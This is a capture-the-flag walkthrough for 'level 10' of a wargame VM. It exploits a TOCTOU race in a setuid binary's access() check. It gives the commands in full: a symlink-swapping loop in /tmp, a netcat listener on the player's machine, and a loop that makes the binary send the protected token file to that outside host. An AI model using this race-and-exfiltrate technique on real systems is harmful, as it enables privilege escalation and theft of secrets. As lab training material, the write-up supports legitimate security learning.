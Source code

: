 ## LEVEL 10

First, we search for files to exploit.  
-> `ls -la` or `la`  
We can see that we have a program named *level10* and a file named *token*, but you can't read *token*. So, let's filter *level10* with printable chracters only.  
-> `strings level10`  
Here, we can notice that it takes a filename and a host ip as parameters and connect to the host using port 6969 to send it the content of the file.

> **nm** is a command that lists all symbols from object files. When a file is compiled, it turns into an object file containing symbols from the functions and variables that were in the code.

Next, we look up the functions that are used in the binary file.  
-> `nm -u level10`  
At the first sight, the program contains functions that prints strings, manipulate files and connect to a server. But we can notice the usage of *access()*, that have a security hole as stipulated in the [manual](https://man7.org/linux/man-pages/man2/access.2.html). So we can exploit this using *symlink* to get our token.

Firstly, on a terminal connected to the virtual machine via SSH, we create infinitely symlink between *level10* and *token* with a file in */tmp*.  
-> `while true; do ln -fs ~/level10 /tmp/flag; ln -fs ~/token /tmp/flag; done`  
Secondly, on another terminal that is on our local machine, we launch a server listening on port 6969.  
-> `nc -lk 6969`  
Thirdly, on a terminal connected to the virtual machine, we launch infinitely the program using the file that are link with either *level10* or *token*.  
-> `while true; do ./level10 /tmp/flag {local_ip}; done`  
And it should print the token to connect to *flag10*.  
-> `su flag10`  

> Copy and paste the token.

-> `getflag`  
-> `su level11`